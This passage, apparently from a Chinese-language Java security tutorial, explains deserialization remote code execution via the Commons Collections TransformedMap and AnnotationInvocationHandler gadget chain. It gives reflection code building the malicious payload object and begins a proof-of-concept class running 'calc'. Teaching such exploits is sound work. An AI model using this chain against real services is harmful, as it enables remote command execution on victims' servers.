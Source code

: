 ```java
  }

}
```

利用`AnnotationInvocationHandler`类我们可以实现反序列化`RCE`，那么在序列化`AnnotationInvocationHandler`对象的时候传入我们精心构建的包含了恶意攻击链的`TransformedMap`对象的序列化字节数组给远程服务，对方在反序列化`AnnotationInvocationHandler`类的时候就会触发整个恶意的攻击链，从而也就实现了远程命令执行了。

**创建`AnnotationInvocationHandler`对象：**

因为`sun.reflect.annotation.AnnotationInvocationHandler`是一个内部API专用的类，在外部我们无法通过类名创建出`AnnotationInvocationHandler`类实例，所以我们需要通过反射的方式创建出`AnnotationInvocationHandler`对象：

```java
// 创建Map对象
Map map = new HashMap();

// map的key名称必须对应创建AnnotationInvocationHandler时使用的注解方法名，比如创建
// AnnotationInvocationHandler时传入的注解是java.lang.annotation.Target，那么map
// 的key必须是@Target注解中的方法名，即：value，否则在反序列化AnnotationInvocationHandler
// 类调用其自身实现的readObject方法时无法通过if判断也就无法通过调用到setValue方法了。
map.put("value", "value");

// 使用TransformedMap创建一个含有恶意调用链的Transformer类的Map对象
Map transformedMap = TransformedMap.decorate(map, null, transformedChain);

// 获取AnnotationInvocationHandler类对象
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");

// 获取AnnotationInvocationHandler类的构造方法
Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);

// 设置构造方法的访问权限
constructor.setAccessible(true);

// 创建含有恶意攻击链(transformedMap)的AnnotationInvocationHandler类实例，等价于：
// Object instance = new AnnotationInvocationHandler(Target.class, transformedMap);
Object instance = constructor.newInstance(Target.class, transformedMap);
```

`instance`对象就是我们最终用于序列化的`AnnotationInvocationHandler`对象，我们只需要将这个`instance`序列化后就可以得到用于攻击的`payload`了。

```java
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.Arrays;
import java.util.HashMap;
import java.util.Map;

public class AnnotationInvocationHandlerTest {

    public static void main(String[] args) {
        String cmd = "calc";
```